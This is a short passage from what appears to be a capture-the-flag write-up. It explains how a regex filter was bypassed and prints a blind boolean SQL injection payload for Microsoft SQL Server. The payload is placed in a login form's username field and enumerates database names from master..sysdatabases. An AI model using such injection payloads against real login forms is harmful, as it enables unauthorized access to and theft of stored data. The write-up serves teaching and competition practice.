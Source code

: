 ![Regex explained on Regex101](./res/nsec24/regex101.png)

After the analysis of the regex we have been able to find an SQL request that would allow us to bypass the regex limitation while dumping the information regarding databases, the tables and stored data:

```sql
username=admin' AND SUBSTRING((CAST((SELECT'm'%2name FROM master..sysdatabases ORDER BY name OFFSET 0 ROWS FETCH FIRST 1 ROWS ONLY) AS NVARCHAR(4000))),1,1)='m' AND 'uNDi'='uNDi&passwd=admin
```

To help us building our final payload we used [codapi](https://codapi.org/mssql/) which allow us to check if our request was correct at a syntax level.

